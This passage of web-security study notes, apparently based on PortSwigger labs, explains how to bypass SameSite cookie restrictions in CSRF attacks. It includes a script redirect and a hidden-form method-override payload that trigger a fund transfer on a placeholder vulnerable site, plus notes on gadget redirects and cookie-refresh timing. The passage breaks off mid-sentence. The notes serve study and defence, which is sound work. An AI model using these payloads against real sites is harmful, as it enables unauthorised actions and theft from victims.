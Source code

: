 	![](../../images/restrictions_explained.png)
## Bypassing SameSite Lax Using `GET` Requests
```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```
Even if `GET` request is not allowed, can override the method specified
```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
Lab: [SameSite Lax bypass via method override](../../../../writeups/portswigger/SameSite%20Lax%20bypass%20via%20method%20override.md)
## Bypassing SameSite Restrictions Using On-Site Gadgets
- can get around `SameSite=Strict` limitation if can find gadget that results in a secondary request within the same site
	- eg. client-side redirect that dynamically constructs the redirection target using attacker controllable input like URL params
Lab: [SameSite bypass via client-side redirect](../../../../writeups/portswigger/SameSite%20bypass%20via%20client-side%20redirect.md)
## Bypassing SameSite Lax Restrictions With Newly Issued Cookies
- lax restrictions not enforced for 120s
- you can trigger the cookie refresh from a new tab so the browser doesn't leave the page before you're able to deliver the final attack
	- minor snag with this approach is that browsers block popup tabs unless they're opened via a manual interaction. For example, the following popup will be blocked by the browser by default